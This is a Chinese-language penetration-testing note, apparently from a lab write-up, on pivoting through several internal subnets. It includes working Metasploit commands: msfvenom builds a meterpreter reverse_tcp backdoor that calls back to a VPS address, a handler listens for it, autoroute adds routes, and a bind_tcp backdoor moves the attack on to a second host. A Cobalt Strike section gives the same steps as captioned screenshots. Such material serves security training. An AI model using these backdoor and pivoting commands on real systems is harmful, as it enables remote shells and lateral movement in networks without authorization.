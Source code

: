 # 	多级代理

PC1：192.168.10.100

​	 192.168.20.100

PC2：192.168.20.111

​	 192.168.30.111

PC3：192.168.30.222

VPS：124.222.14.190

### MSF

1. PC1上线msf

   ```shell
   # VPS生成后门
   root@vps> msfvenom -p windows/x64/meterpreter/reverse_tcp lport=14444 lhost=124.222.14.190 -f exe -o 1.exe
   
   # VPS开启监听
   msf6> handler -p windows/x64/meterpreter/reverse_tcp -H 124.222.14.190 -P 14444
   
   # PC1上线
   PC1>./1.exe
   ```

   ![image-20220726015153468](..\img\内网渗透-多级代理\image-20220726015153468.png)

2. 配置10网段和20网段路由

   ```shell
   meterpreter> run autoroute -s 192.168.10.0/24
   meterpreter> run autoroute -s 192.168.20.0/24
   ```

   ![image-20220726015902968](..\img\内网渗透-多级代理\image-20220726015902968.png)

3. 生成正向代理后门

   ```shell
   # VPS生成后门
   root@vps> msfvenom -p windows/x64/meterpreter/bind_tcp lhost=192.168.20.111 lport=14444 -f exe -o 2.exe
   
   # PC2运行后门
   PC2> ./2.exe
   
   # VPS连接后门
   msf6> handler -p windows/x64/meterpreter/bind_tcp -H 192.168.20.111 -P 14444
   ```

   ![image-20220726074402913](..\img\内网渗透-多级代理\image-20220726074402913.png)

4. PC2上线后配置30网段路由

   ```shell
   meterpreter> run autoroute -s 192.168.30.0/24
   ```

   ![image-20220726074619762](..\img\内网渗透-多级代理\image-20220726074619762.png)

   ![image-20220726074809652](..\img\内网渗透-多级代理\image-20220726074809652.png)

### cobalt strike

VPS生成后门

![image-20220726090219343](..\img\内网渗透-多级代理\image-20220726090219343.png)

PC1上线CS

![image-20220726090302142](..\img\内网渗透-多级代理\image-20220726090302142.png)

创建bind_tcp监听

![image-20220726090709231](..\img\内网渗透-多级代理\image-20220726090709231.png)

生成正向beacon

![image-20220726090734419](..\img\内网渗透-多级代理\image-20220726090734419.png)

PC2执行上线

![image-20220726090819992](..\img\内网渗透-多级代理\image-20220726090819992.png)
